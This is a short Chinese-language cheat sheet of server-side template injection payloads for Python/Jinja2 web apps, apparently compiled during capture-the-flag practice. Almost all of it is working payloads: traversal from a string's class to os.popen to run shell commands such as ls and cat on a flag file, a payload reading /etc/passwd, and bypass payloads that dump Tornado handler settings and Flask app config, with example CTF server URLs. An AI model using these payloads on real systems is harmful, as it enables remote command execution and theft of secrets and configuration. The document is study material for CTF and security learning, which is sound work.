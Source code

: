 # SSTI

## 1

* 获取字符串的类对象

  ```
  {{''.__class__}} 
  ```

  感觉没用

* 寻找基类

  ```
   ''.__class__.__mro__
  ```

  一般来说找到<type 'object'>

* 寻找可用引用

  ```html
http://.../{{''.__class__.__mro__[2].__subclasses__()}}
  ```

* 找到 os 所在的 site._Printer 类（如在第72位）

  ``` html
  http://.../{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os']. popen('命令').read()}}
  <!-- 例如
  1. {{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}  在当前目录使用 ls 命令
  2. {{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()}}  在当前目录查看fl4g
  -->
  ```

* 一些其他的payload

  ``` html
  {{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[' os'].popen('cat fl4g').read()}}
  <!-- <type 'site._Printer'> -->
  ```

  ```html
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[' os'].system('ls') }} 
<!-- <type 'site._Printer'> -->
  ```

  ```html
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
<!-- <type 'file'> -->
  ```

## 2

当以上方法被屏蔽时（操作符被过滤）

* try

  ```html
  {{handler.settings}}
  <!-- http://220.249.52.133:44416/error?msg={{handler.settings}} -->
  ```

  ```html
  {{url_for.__globals__}}
  <!-- http://220.249.52.133:37426/shrine/{{url_for.__globals__}} -->
  {{url_for.__globals__['current_app'].config}}
  <!-- http://220.249.52.133:37426/shrine/{{url_for.__globals__['current_app'].config}} -->
  ```
  
  